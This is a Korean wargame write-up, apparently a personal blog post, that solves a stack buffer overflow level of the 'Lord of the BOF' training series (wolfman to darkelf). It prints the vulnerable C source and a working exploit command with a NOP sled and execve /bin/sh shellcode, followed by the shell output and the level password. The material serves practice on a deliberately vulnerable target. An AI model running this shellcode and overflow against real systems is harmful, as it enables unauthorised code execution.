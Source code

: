 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL6 (wolfman -> darkelf) : check length of argv[1] + egghunter + bufferhunter"
date: 2015-11-07 23:50
comments: true
categories:  wargame
tags: [bof]
---
```


- id = wolfman 
- pw = love eyuna  

<!--more-->

단계가 지날수록 제한조건이 하나씩 추가되는구나...

이번에는 `argv[1]` 사이즈가 48보다 작아야 하고, buffer 앞의 40bytes 는 clear 시킨다. 그렇다면 shellcode 는 두 번째 argument 로 넣고, `LR` 값은 두 번째 argument 있는 위치를 가르키도록 하면 되지 않을까...

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
} 
```

## Exploit

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage6.png)

```bash
[NOP 44bytes][LR][NOP 20bytes][ShellCode]

./wolfman `python -c 'print "\x90"*44 + "\xe4\xfd\xff\xbf"'`  `python -c 'print "\x90"*30 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
```

## Next stage

```bash
bash$ id °
uid=504(orc) gid=504(orc) euid=505(wolfman) egid=505(wolfman) groups=504(orc)

bash$ my-pass
euid = 505
love eyuna 
```